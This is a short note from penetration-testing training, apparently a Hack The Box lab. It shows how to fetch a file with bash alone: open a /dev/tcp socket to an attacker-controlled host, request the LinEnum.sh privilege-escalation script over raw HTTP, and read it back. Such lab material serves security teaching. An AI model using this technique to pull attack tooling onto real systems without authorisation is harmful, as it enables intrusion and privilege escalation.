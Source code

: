 `Bash version 2.04 or greater`
check bash version in target

assuming there is open port http on victim on port 80 or somthing
```shell-session
AhmaDb0x@htb[/htb]$ exec 3<>/dev/tcp/10.10.10.32/80
```

```shell-session
AhmaDb0x@htb[/htb]$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

```shell-session
AhmaDb0x@htb[/htb]$ cat <&3
```
